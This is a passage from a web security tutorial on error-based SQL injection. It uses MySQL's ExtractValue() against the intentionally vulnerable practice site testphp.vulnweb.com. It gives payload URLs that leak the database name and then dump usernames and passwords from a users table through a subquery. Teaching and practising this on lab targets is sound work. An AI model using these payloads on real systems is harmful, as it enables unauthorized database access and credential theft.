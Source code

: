 As in the example, database return the unexpected string in error message. That means that, we see what we give in the input
field.Instead of seeing what we give as a string, it is possible that to return values from database.<br>
There is a helper function that we can use, which is `ExtractValue()`.

<http://testphp.vulnweb.com/listproducts.php?cat=extractvalue(rand(),concat(1,database()))>
<br>
Query will look like this on the server side.
{% highlight python %}
SELECT (some unknown column names) FROM listproducts WHERE cat=extractvalue(rand(),concat(1,database()))
{% endhighlight %}
<br>
![Desktop View](/assets/img/posts/fundamentals-of-sql-injection/sql16.jpg)
<br>
This time we have returned a function result as an error message and modified the function as we wanted.
<br>
As you can see from the picure, result of the `database()` helper function **acuart** is in the error message.
### Extract value with subquery
Instead of passing `database()` function as a second argument for `ExtractValue()` method, creating subquery with `()` will
allow you to write your own queries.
<br>
**I am assuming that you read the previous chapters and got the table names already for this example.**
<br>
<http://testphp.vulnweb.com/listproducts.php?cat=extractvalue(rand(),concat(1,(SELECT concat(%22Username: %22,uname,%22  Password:%22,pass) FROM users)))>
<br>
![Desktop View](/assets/img/posts/fundamentals-of-sql-injection/sql17.jpg)
<br>
